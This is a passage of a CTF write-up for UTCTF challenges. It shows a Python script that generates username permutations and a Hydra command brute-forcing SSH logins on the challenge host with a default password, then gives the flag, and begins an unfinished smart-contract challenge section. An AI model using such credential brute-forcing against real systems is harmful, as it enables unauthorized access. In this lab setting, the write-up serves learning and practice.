 ```
    u.write(i[0]+"\n")
    u.write(i[1]+"\n")
    u.write(i[0].lower()+"\n")
    u.write(i[1].lower()+"\n")
    u.write(i[0]+i[1]+"\n")
    u.write(i[1]+i[0]+"\n")
    u.write((i[0]+i[1]).lower()+"\n")
    u.write((i[1]+i[0]).lower()+"\n")
    u.write(i[0]+"."+i[1]+"\n")
    u.write(i[1]+"."+i[0]+"\n")
    u.write((i[0]+"."+i[1]).lower()+"\n")
    u.write((i[1]+"."+i[0]).lower()+"\n")
    u.write(i[0][0]+i[1]+"\n")
    u.write(i[1]+i[0][0]+"\n")
    u.write((i[0][0]+i[1]).lower()+"\n")
    u.write((i[1]+i[0][0]).lower()+"\n")
    u.write(i[1][0]+i[0]+"\n")
    u.write(i[0]+i[1][0]+"\n")
    u.write((i[1][0]+i[0]).lower()+"\n")
    u.write((i[0]+i[1][0]).lower()+"\n")
    u.write(i[0][0]+"."+i[1]+"\n")
    u.write(i[1]+"."+i[0][0]+"\n")
    u.write((i[0][0]+"."+i[1]).lower()+"\n")
    u.write((i[1]+"."+i[0][0]).lower()+"\n")
    u.write(i[1][0]+"."+i[0]+"\n")
    u.write(i[0]+"."+i[1][0]+"\n")
    u.write((i[1][0]+"."+i[0]).lower()+"\n")
    u.write((i[0]+"."+i[1][0]).lower()+"\n")
```

And then used [Hydra](https://github.com/vanhauser-thc/thc-hydra ) to test them against the port. 

`hydra -L usernames.txt -p defaultpw5678! -u  -s 8622  misc2.utctf.live ssh`

Turns out, the username is `cshackleford`, and the flag is in a txt file.

`utflag{convension_knowledge_for_the_win}`

# The Grumpy Genie:

## Moral of the Challenge: 

sometimes, you can just look the flag up

## Challenge Description:

We are provided a pastebin link https://pastebin.com/T7r9vFvg which contained a smart contract, and an address on what appears to be the ETH blockchain 0x867D66C78235CD6c989FbFA34606FcfF637fB613,and tasked with finding a flag. 

## Solution


[^1]: In an obvious bid to appeal to their international audience, UT ISSS clearly decided to split the difference and spell favourite both ways. The gesture is appreciated. 
[^2]: It’s unclear what Sagishi does, but based on their name, I have some ideas. Something that starts with N, ends with T, and has three letters perhaps?